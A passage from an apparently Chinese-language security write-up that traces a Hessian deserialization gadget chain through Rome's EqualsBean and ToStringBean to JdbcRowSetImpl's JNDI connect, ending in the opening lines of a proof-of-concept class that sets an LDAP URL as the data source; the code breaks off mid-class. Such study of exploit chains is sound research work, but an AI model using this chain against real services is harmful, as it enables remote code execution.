继续跟进到MapDeserializer的readMap方法

![image-20230309181558991](images/12.png)

和之前的HashMap中的readObject方法类似，会调用到HashMap的put方法

![image-20230309224509015](images/19.png)

这里的key值其实就是我们通过反射设置的key，即EqualsBean

![image-20230309224602309](images/20.png)

调用了EqualsBean的hashCode，即rome相关的链子了

![image-20230309224706172](images/21.png)

最后会调用到这个toString方法，之前在分析rome链的时候我们知道，这里是可以去调用任意的getter方法的，在FastJson中我们知道JdbcRowSetImpl的connect方法能进行一个JNDI注入，现在就只需要去找到，有没有相应的getter方法能调用这个connect方法

![image-20230309224939896](images/22.png)

找到了一个getDataBaseMetaData方法

```
public DatabaseMetaData getDatabaseMetaData() throws SQLException {
    Connection var1 = this.connect();
    return var1.getMetaData();
}
```

![image-20230309225046903](images/23.png)

```
public String getDataSourceName() {
    return dataSource;
}
```

通过setDataSourceName去设置dataSource的值

但是，光是这样并不能执行，是因为在调用getter方法的时候是通过迭代器调用的，存在一个getMatchColumnNames方法，如果不存在strMatchColumns的值的话，会抛出一个异常导致程序结束，所以我们还需要调用setMatchColumn去设置strMatchColumns

![image-20230309223912715](images/24.png)

于是有了下面的poc（自己重新写了一遍）

```
package Unser.Hessians;

import com.caucho.hessian.io.Hessian2Input;
import com.caucho.hessian.io.Hessian2Output;
import com.rometools.rome.feed.impl.EqualsBean;
import com.rometools.rome.feed.impl.ToStringBean;
import com.sun.rowset.JdbcRowSetImpl;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;

public class Payload {
    public static void main(String[] args) throws Exception{
        JdbcRowSetImpl jdbcRowSet = new JdbcRowSetImpl();
        String payload = "ldap://127.0.0.1:1389/exp";
        jdbcRowSet.setDataSourceName(payload);
        jdbcRowSet.setMatchColumn("aaa");

```